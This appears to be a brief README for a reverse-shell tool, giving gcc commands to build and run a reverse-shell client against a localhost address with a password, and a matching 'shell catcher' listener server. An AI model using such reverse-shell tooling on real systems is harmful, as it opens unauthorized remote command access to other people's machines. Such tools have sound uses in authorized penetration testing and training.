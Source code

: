 # Useage

## Reverse Shell
```
gcc -o rev.bin reverse-shell.c
./rev.bin 127.0.0.1 58009 mysecretpassword
```

## Shell Catcher
```
gcc -o server ./server.c
./server 58008 mysecretpassword 
```
